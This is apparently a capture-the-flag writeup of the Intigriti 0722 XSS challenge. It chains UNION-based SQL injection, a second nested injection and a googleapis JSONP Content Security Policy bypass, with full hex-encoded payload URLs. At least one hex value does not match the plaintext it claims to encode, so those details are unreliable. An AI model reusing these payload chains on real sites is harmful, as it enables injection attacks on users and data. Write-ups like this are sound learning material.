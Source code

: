 ```yaml
---
layout: post
title: Intigriti XSS Challenge 0722 Writeup
date: 2022-08-21
categories: [CTF, writeup]
tags: [CTF.XSS] 
---
```



### Introduction:
The Intigriti 0722 XSS Challenge involves exploiting an SQL injection vulnerability to execute an XSS payload while bypassing Content Security Policy (CSP) restrictions.


**Challenge URL:** [https://challenge-0722.intigriti.io/](https://challenge-0722.intigriti.io/)

**Objective:** Trigger an alert box within the domain.


&nbsp;

### Initial Discovery
The application is a basic single-page blog with less functionality. The site mainly consists of static blog entries, with most links inactive except for the "Archives" links that filter posts by month.

![image.png](/assets/img/Blog_images/intigriti-0722-xss-challenge/image.png)

`?month` is the parameter used by the archives links and inserting a single quote (`'`) into this parameter caused an application error

Inserting the SQL injection payload `0 or 1=1` into the URL caused the posts to reappear:

`https://challenge-0722.intigriti.io/challenge/challenge.php?month=0 or 1=1`

Changing the payload to `0 or 1=2` caused the posts to disappear. This indicates that the month parameter is vulnerable to SQL injection.

&nbsp;

### SQL Injection

To identify the number of columns in the table, I used a UNION-based payload and incremented the number of fields until an error appeared on the page:

`https://challenge-0722.intigriti.io/challenge/challenge.php?month=2 union select 1,2,3,4,5--`

The site did not produce an error with up to 5 fields, but adding a sixth field resulted in an error, indicating that there are 5 columns in the table.

When I inserted anything other than numbers, the site returned an error. This indicates that the 5 columns only accept numeric values, so we need to hex encode our payload for each column.

I encoded the XSS payload `<script>alert(1)</script>` into its hexadecimal representation: `0x3c7363726970743e616c6572742831293c2f7363726970743e`. I then inserted this encoded payload into each column to test if it would trigger an XSS attack. To differentiate the columns, I included distinct numbers inside each `alert()`.

`https://challenge-0722.intigriti.io/challenge/challenge.php?month=2 union select 0x3c7363726970743e616c6572742831293c2f7363726970743e,0x3c7363726970743e616c6572742832293c2f7363726970743e,0x3c7363726970743e616c6572742833293c2f7363726970743e,0x3c7363726970743e616c6572742834293c2f7363726970743e,0x3c7363726970743e616c6572742835293c2f7363726970743e--` 

![image.png](/assets/img/Blog_images/intigriti-0722-xss-challenge/image%201.png)

The payloads are being reflected, but they are HTML encoded. Additionally, the author name field appears empty.

```html
	  <article class="blog-post">
		<h2 class="blog-post-title">&lt;script&gt;alert(2)&lt;/script&gt;</h2>
		<p class="blog-post-meta">&lt;script&gt;alert(5)&lt;/script&gt; by <a href="#"></a></p>

		<p>&lt;script&gt;alert(3)&lt;/script&gt;</p>
	  </article>
```

 Injecting values `1` or `2` into the fourth field of our UNION SELECT query displays the author names "Anton" and "Jake," respectively. Any other numeric values result in an empty author name field.

![image.png](/assets/img/Blog_images/intigriti-0722-xss-challenge/image%202.png)

There might be a chance that the value from the fourth field is used in another SQL query and could be vulnerable to SQL injection. By injecting the hex-encoded payload `0x30206f7220313d30` (representing `0 or 1=0`) into the fourth field, the author name field returns empty. Conversely, injecting `0x30206f7220313d31` (representing `0 or 1=1`) displays the author name, confirming that it is vulnerable to SQL injection.

To identify the number of columns in the table, I used a UNION-based payload and incremented the number of fields until post’s author name is returned in the site.

Since only numerical values were accepted, I hex-encoded the payload `0 UNION SELECT 1,2,3` to `0x3020554e494f4e2053454c45435420312c322c33`

Inserting this hex-encoded payload into the fourth field of the initial SQLi UNION query:

`https://challenge-0722.intigriti.io/challenge/challenge.php?month=2 union select 1,2,3,0x3020554e494f4e2053454c45435420312c322c33,5--`

showed the author’s name. Adding an additional field to the second payload removed the author field, confirming that there are three columns in the second table. The value `2` is also reflected in the author name, coming from the second field of the Second SQLi payload

![image.png](/assets/img/Blog_images/intigriti-0722-xss-challenge/image%203.png)

I encoded the XSS payload `<script>alert(1)</script>` to hex format as `0x3c7363726970743e616c6572742831293c2f7363726970743e` and inserted it into the second field of the SQLi payload:

`0 UNION SELECT 1,0x3c7363726970743e616c6572742831293c2f7363726970743e,3`

Next, I hex-encoded the entire payload to `0x3020554e494f4e2053454c45435420312c307833633733363337323639373037343365363136633635373237343238333132393363326637333633373236393730373433652c33`, which was then placed into the fourth field of the initial SQLi payload:

`https://challenge-0722.intigriti.io/challenge/challenge.php?month=2 union select 1,2,3,0x3020554e494f4e2053454c45435420312c307833633733363337323639373037343365363136633635373237343238333132393363326637333633373236393730373433652c33,5--`

The result of this payload:

![image.png](/assets/img/Blog_images/intigriti-0722-xss-challenge/image%204.png)

Although the payload renders without any encoding, it is not being triggered. Checking the console confirms that the payload is being blocked by the Content Security Policy.

![image.png](/assets/img/Blog_images/intigriti-0722-xss-challenge/image%205.png)

&nbsp;

### Bypassing CSP

Checking the HTTP response header reveals the site's Content Security Policy (CSP):

`Content-Security-Policy: default-src 'self' *.googleapis.com *.gstatic.com *.cloudflare.com`

This configuration restricts script execution to the origin or the three specified domains. 

To evaluate whether the CSP is correctly implemented, I used [Google's CSP Evaluator](https://csp-evaluator.withgoogle.com/). 

![image.png](/assets/img/Blog_images/intigriti-0722-xss-challenge/image%206.png)

The results indicated that the provided allowlists can be bypassed.

I then applied a CSP bypass method from [Brutelogic's CSP Bypass Guidelines](https://brutelogic.com.br/blog/csp-bypass-guidelines/), which utilizes the googleapis.com API.

I encoded the XSS payload

**`<script src="https://www.googleapis.com/customsearch/v1?callback=alert(1)"></script>`**

to its hex representation: `0x3c736372697074207365723d68747470733a2f2f7777772e676f6f676c65617069732e636f6d2f637573746f6d7365617263682f76313f63616c6c6261636b3d616c6572742831293e3c2f7363726970743e`.

I then inserted this into the second field of the second SQLi payload:

`0 UNION SELECT 1,0x3c736372697074207365723d68747470733a2f2f7777772e676f6f676c65617069732e636f6d2f637573746f6d7365617263682f76313f63616c6c6261636b3d616c6572742831293e3c2f7363726970743e,3`

Next, I hex-encoded the entire payload:

`0x3020554e494f4e2053454c45435420312c30783363353336333732363937303734323035333732363333643638373437343730373333613266326637373737373732653637366636663637366336353631373036393733326536333666366432663633373537333734366636643733363536313732363336383266373633313366363336313663366336323631363336623364363136633635373237343238363436663633373536643635366537343265363436663664363136393665323933653363326635333633373236393730373433652c33`.

This was placed in the fourth field of the initial SQLi payload, resulting in the final payload that triggers the alert:

`https://challenge-0722.intigriti.io/challenge/challenge.php?month=2 union select 1,2,3,0x3020554e494f4e2053454c45435420312c30783363353336333732363937303734323035333732363333643638373437343730373333613266326637373737373732653637366636663637366336353631373036393733326536333666366432663633373537333734366636643733363536313732363336383266373633313366363336313663366336323631363336623364363136633635373237343238363436663633373536643635366537343265363436663664363136393665323933653363326635333633373236393730373433652c33,5--`

![image.png](/assets/img/Blog_images/intigriti-0722-xss-challenge/image%207.png)
